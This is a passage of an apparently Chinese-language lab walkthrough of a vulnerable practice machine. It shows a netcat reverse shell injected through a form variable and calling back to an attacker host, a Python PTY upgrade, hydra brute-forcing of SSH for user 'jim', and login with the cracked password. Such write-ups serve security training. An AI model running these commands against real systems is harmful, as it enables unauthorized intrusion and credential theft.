 ![](https://pic1.zhimg.com/80/v2-892abd11e93b52e666b41cbb635417cc_720w.webp)

  

我们先用 `nc` 反弹一个 `shell` 回来把，`kali` 监听 `4444` 端口，在 `radio` 变量输入 `nc` 反弹的地址成功反弹一枚shell：

```text
nc -e /bin/sh 192.168.1.128 4444
```

  

![](https://pic3.zhimg.com/80/v2-d8304ab301fcf03b2be853d2a262df22_720w.webp)

  

我们先让它得到一个 `bash` 把：

```text
python -c 'import pty;pty.spawn("/bin/bash")'
```

## hydra爆破ssh

之后我是在 `/home/jim` 目录里发现了一个`历史密码`的`备份文件`：

  

![](https://pic1.zhimg.com/80/v2-7e7dc376cdba990dc7896350641de0f8_720w.webp)

  

既然得到了密码，那么就用`九头蛇`来爆破把：

```text
hydra -l jim -P pass ssh://192.168.1.100 -t 10
```

  

![](https://pic2.zhimg.com/80/v2-408c079a43deba78f2ade6747b7272f9_720w.webp)

  

爆破成功后得到 `jim` 的密码为 `jibril04`，随后我登陆到了 `jim` 用户：

```text
ssh jim@192.168.1.100
```

  

![](https://pic1.zhimg.com/80/v2-997aad3579b9d5efc5ac808215924d58_720w.webp)

  

登陆之后我习惯性的 `sudo -l` 发现需要密码：

  

![](https://pic4.zhimg.com/80/v2-969790745463ca2c066f61ae7833b1cf_720w.webp)

  

紧接着我在 `jim` 的目录下发现了一个文件，文件里好像是一封邮件信息：

